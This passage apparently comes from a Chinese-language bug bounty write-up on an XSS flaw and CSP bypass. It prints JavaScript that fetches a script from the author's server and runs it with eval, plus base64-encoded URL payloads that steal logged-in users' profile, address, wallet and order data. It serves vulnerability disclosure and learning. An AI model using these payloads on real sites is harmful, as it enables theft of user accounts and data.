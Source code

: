 主注入点的 JavaScript 代码:

```
!async function() {
    let a = await
    function() {
        fetch('https://my-server.com/log.js').then(t => t.text()).then(d => {
            eval(d)
        })
    }()
}();
```

总之:我在异步模式下调用了这个函数，在 await 模式下的函数中又调用了一个函数，这个函数向我上面提到的托管 JavaScript 发出请求。在得到这个请求的响应后，我又有了`eval()ed`我的 JavaScript，它解决了上面提到的问题。这个解决方案可以说是绕过 CSP 规则的证明，CSP 规则不允许运行来自不可信来源的脚本。

> **问题:**在 GET 请求中写这个似乎会在浏览器端产生错误，不知道为什么？

**解决方案:**我对上述整个代码片段进行了 base64 编码，并将其提交给`decodeURIComponent()`，然后将其传递给`atob()`，再传递给`eval()`。相当困惑？

```
█████.com/?foo='+eval(atob(decodeURIComponent('IWFzeW5jIGZ1bmN0aW9uKCkge2xldCBhID0gYXdhaXQgZnVuY3Rpb24oKSB7ZmV0Y2goJ2h0dHBzOi8vbXktc2VydmVyLmNvbS9sb2cuanMnKS50aGVuKHQgPT4gdC50ZXh0KCkpLnRoZW4oZCA9PiB7ZXZhbChkKX0pfSgpfSgpOwo=')))+'
```

> **问题:**一切都按预期运行，一切都很完美，但是对于每 2/5 次尝试，页面重定向甚至会在数据窃取发生之前发生。

# 🚀尝试 0x03:

为了防止重定向的发生，我知道我必须破坏一些东西，这可能会产生 JavaScript 错误，最终在到达重定向状态之前破坏 JavaScript。但在打破这个案例之前，我必须执行所有这些动作，然后我希望有一个明确的突破。

经过分析和许多尝试和错误，这是我用来利用数据窃取的最终有效载荷。

```
█████.com/?foo='+eval(atob(decodeURIComponent('IWFzeW5jIGZ1bmN0aW9uKCkge2xldCBhID0gYXdhaXQgZnVuY3Rpb24oKSB7ZmV0Y2goJ2h0dHBzOi8vbXktc2VydmVyLmNvbS9sb2cuanMnKS50aGVuKHQgPT4gdC50ZXh0KCkpLnRoZW4oZCA9PiB7ZXZhbChkKX0pfSgpfSgpOwo=')))+'});var foo='{ 1,
```

这个最后的有效载荷，停止重定向+以我希望看到的方式执行事情。🤟这真的很有挑战性，因为这是我第一次在真正的 BB 项目中处理和解决这样的问题。

此时，这个恶意制作的 URL 可以在用户周围共享和传播，其帐户登录的用户将直接受到影响。将会有零信号数据在后台被窃取。我演示了被动活动，比如调用 API 并将它们路由到我的服务器并收集它们。对于任何单击此精心制作的 URL 的登录用户，风险如下:

1.  **泄露用户资料详情**如:全名、电子邮件、手机号码、帐户创建日期、用户类型、用户标识、ssotoken 等等。
2.  **泄露用户地址详情**如:所有添加的地址、收件人姓名、addressid、完整地址、手机号码、时间戳。
3.  **用户钱包详情**泄露，如:钱包可用余额、ownedGUID、ssoId。
4.  **订单细节泄露**:订单 Id、订购项目、数量、状态以及你在个人资料中看到的基本上每一个订单细节。
5.  除此之外，我还可以被动地列举登录用户的每一个操作，如钱包账单、订单历史记录、频繁充值的手机号码列表等等，所有这些都可以通过在我的服务器上托管的 JavaScript 代码中添加更多 API 地址来完成。

还有一点要注意的是，这种攻击不仅限于被动的行为，我可以执行更主动的行为，如转移钱包余额，无需交互就可以下单，以及使用其 API 调用执行移动充值，删除用户地址，取消订阅，等等。 ***但是我犯了一个错误，没有为这次主动攻击*** *提供 POC，最终减少了奖励金额*。没问题，又学到了一课💪。

# 让我们来谈谈修复旁路！
